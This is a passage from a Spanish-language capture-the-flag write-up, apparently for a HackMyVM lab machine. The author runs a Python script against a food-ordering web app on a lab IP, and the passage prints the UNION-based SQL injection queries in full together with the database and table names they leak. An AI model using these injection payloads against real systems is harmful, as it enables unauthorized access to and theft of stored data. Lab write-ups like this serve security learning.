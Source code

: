 Para esta fase ya nos ayudaremos de un script hecho en **Python** para extraer todas las locuras...

> [foodOrderSQLi_content.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HMV/luz/foodOrderSQLi_content.py)

---

### Bases de datos

---

```bash
 python3 foodOrderSQLi_content.py 192.168.100.10 -q
(+) Consulta SQL usada: 1 UNION ALL SELECT 1,2,3,4,5,6,CONCAT('aca_esta_el_leak:',(SELECT schema_name FROM information_schema.schemata LIMIT 5,1)),8,9,10,11-- - 

+--------------------+
| * Bases de datos * |
+--------------------+
| information_schema |
| fos                |
| performance_schema |
| mysql              |
| sys                |
+--------------------+
```

Nos quedaremos con la distinta, **fos**... Veamos sus tablas:

### Tablas

---

```bash
 python3 foodOrderSQLi_content.py 192.168.100.10 -q fos 
(+) Consulta SQL usada: 1 UNION ALL SELECT 1,2,3,4,5,6,CONCAT('aca_esta_el_leak:',(SELECT table_name FROM information_schema.tables WHERE table_schema IN (0x666f73) LIMIT 8,1)),8,9,10,11-- - 

+------------------+
| * Tablas - fos * |
+------------------+
| orders           |
| system_settings  |
| cart             |
| user_info        |
| users            |
| category_list    |
| product_list     |
| order_list       |
+------------------+
```

Hay algunas llamativas, como **user_info** y **users**, listemos las columnas por ejemplo de **user_info**.
